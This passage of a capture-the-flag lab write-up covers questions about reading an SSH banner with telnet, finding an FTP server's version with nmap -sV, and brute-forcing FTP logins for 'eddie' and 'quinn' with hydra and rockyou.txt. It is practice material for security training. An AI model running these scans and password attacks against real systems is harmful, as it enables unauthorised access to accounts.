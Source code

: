 ### Question 5
**What is the flag hidden in the SSH server header?**

We can use telnet here as well and instead of using the port for HTTP we use the port for SSH giving `telnet MACHINE_IP 22` which will result in something like this:

```terminal
$ telnet MACHINE_IP 22
Trying MACHINE_IP...
Connected to MACHINE_IP.
Escape character is '^]'.
SSH-2.0-OpenSSH_8.2p1 THM{XXXXXXXX} 
```

### Question 6
**We have an FTP server listening on a nonstandard port. What is the version of the FTP server?**

Let's first look at all the ports we have found. There is only one ftp server in the non-standard range, and it uses the port from question 2. 
Since we know the port number, we can let nmap scan only that port. 
`nmap -p PORT MACHINE_IP -sV` we use `-sV` to get the versions.

### Question 7
**We learned two usernames using social engineering: `eddie` and `quinn`. What is the flag hidden in one of these two account files and accessible via FTP?**

We now have two names and an open FTP port but no password. Let's see if they were using insecure passwords with _**hydra**_. 

One approach is to run hydra twice once with `eddie` and once with `quinn`. The approach I'm gonna take is to add them to a text file called `users.txt` and run hydra with the users.txt file like this:
`hydra -L users.txt -P /usr/share/wordlists/rockyou.txt ftp://MACHINE_IP:PORT`

This will give the following result:
```shell
$ hydra -L users.txt -P /usr/share/wordlists/rockyou.txt ftp://MACHINE_IP:PORT   
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-10-04 10:17:08
[DATA] max 16 tasks per 1 server, overall 16 tasks, 28688798 login tries (l:2/p:14344399), ~1793050 tries per task
[DATA] attacking ftp://MACHINE_IP:PORT/
[PORT][ftp] host: MACHINE_IP   login: eddie   password: ------
[PORT][ftp] host: MACHINE_IP   login: quinn   password: ------
1 of 1 target successfully completed, 2 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-10-04 10:17:32

```
Now that we have usernames and passwords, lets log in to the FTP server and see which files we can find!
